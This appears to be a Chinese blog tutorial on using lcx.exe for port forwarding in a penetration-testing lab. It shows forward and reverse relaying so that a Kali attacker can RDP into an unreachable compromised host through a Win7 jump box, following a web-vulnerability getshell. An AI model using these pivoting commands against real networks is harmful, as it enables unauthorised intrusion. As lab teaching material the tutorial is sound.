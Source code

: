 ```yaml
---
layout: post
title: lcx.exe端口转发工具使用
date: 2020-08-31 
tag: 网络安全
typora-root-url: ..

---
```


Lcx是一款端口转发工具,可以将内网机器的端口映射到带公网IP的机器上。一般进行渗透的时候,通过web漏洞getshell之后,需要对其进行远程登录,这就需要用到端口映射。

### 环境介绍

Win7：192.168.10.10

Win10：192.168.10.30

Kali：192.168.10.20



### 正向端口转发

终端上执行lcx命令，让本机指定端口的流量全部转发到远程主机指定IP指定端口上。然后通过本地指定端口，访问远程主机指定端口。

192.168.10.30主机上执行下列命令，将其1234端口流量全部转发到主机192.168.10.10的3389端口

```python
lcx.exe -tran 1234 192.168.10.10 3389
```

192.168.10.30通过1234端口远程桌面登录192.168.10.10主机。

<img src="/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831231211741.png" alt="image-20200831231211741"  />



### 反向端口转发

kali机以Win7主机为跳板远程登录Win10主机

1）将外网服务器Win7上的9000端口流量转发到该机的9001端口，Win7上执行：

```python
#lcx.exe -listen SourcePort  TargetPort
lcx.exe -listen 9000 9001
```

![image-20200831232955074](/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831232955074.png)

2）将被控服务器Win10主机流量转发到外网服务器Win7，Win10上执行：

```python
# lcx.exe -slave RemoteHost RemotePort LocalHost LocalPort
lcx.exe -slave 192.168.10.10 9000 127.0.0.1 3389
```

![image-20200831233649504](/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831233649504.png)

3）kali攻击机通过远程访问外网服务器Win7的9000端口，远程登录Win10主机，kali上执行：

```python
# rdesktop host:port
rdesktop 192.168.10.10:9001
```

![image-20200831233051609](/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831233051609.png)

执行命令弹出远程登录框，输入账号和密码，即可完成对Win10的远程登录：

![image-20200831233220029](/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831233220029.png)

这样攻击机kali在没有无法访问靶机Win10的情况下，通过端口转发和二者共同可以访问的外网主机Win7，远程登录靶机。



### 备注

在执行lcx.exe命令过程中，注意打印的提示内容，显示端口网络连接情况